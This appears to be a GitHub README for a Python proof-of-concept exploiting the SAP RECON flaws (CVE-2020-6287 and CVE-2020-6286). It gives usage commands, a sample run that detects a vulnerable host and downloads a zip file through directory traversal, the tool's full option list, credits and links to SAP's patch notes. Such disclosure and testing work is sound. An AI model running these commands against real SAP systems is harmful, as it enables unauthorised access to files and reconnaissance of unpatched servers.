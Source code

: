 PoC for CVE-2020-6287, CVE-2020-6286 (SAP RECON vulnerability)

~~Pffff! RECON (Remotely Exploitable Code On NetWeaver)? Guys, really? That was the best codename you came up with? :)~~ 

This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and as a PoC script exploits directory traversal in `queryProtocol` method.

Directory traversal allows to download any `zip` from SAP server.

***This PoC doesn't provide RCE/user creation functionality.<br>This project is created only for educational purposes and cannot be used for law violation or personal gain.
<br>The author of this project is not responsible for any possible harm caused by the materials of this project***

Original finding: 

CVE-2020-6287: [Pablo Artuso](https://twitter.com/lmkalg)<br>
CVE-2020-6286: [Yvan 'iggy' G.](https://twitter.com/_1ggy) 

Solution: [#2934135](https://launchpad.support.sap.com/#/notes/2934135), [#2939665](https://launchpad.support.sap.com/#/notes/2939665)



# How to use


Just point SAP NW AS Java hostnmae/ip.

There is additional options:

1. `-c` - check if SAP server is vulnerable to RECON
2. `-f` - download `zip` file from SAP server


Ex.:

```
~python RECON.py -H 172.16.30.8 -f /1111.zip
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Ok! File zipfile_929.zip was saved
```

## All options


```
~python RECON.py -h
usage: RECON.py [-h] [-H HOST] [-P PORT] [-s] [-c] [-f ZIPFILE]
                [--timeout TIMEOUT] [-v]

PoC for CVE-2020-6287, CVE-2020-6286 (RECON)
This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and exploits dir traversal in queryProtocol method
Original finding: Pablo Artuso. https://twitter.com/lmkalg
Solution: https://launchpad.support.sap.com/#/notes/2934135, https://launchpad.support.sap.com/#/notes/2939665

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Java NW host (default: 127.0.0.1)
  -P PORT, --port PORT  Java NW web port (default: tcp/50000)
  -s, --ssl             enable SSL
  -c, --check           just detect vulnerability
  -f ZIPFILE, --zipfile ZIPFILE
                        ZIP file to read. CVE-2020-6286
  --timeout TIMEOUT     HTTP connection timeout in second (default: 10)
  -v, --verbose         verbose mode
```
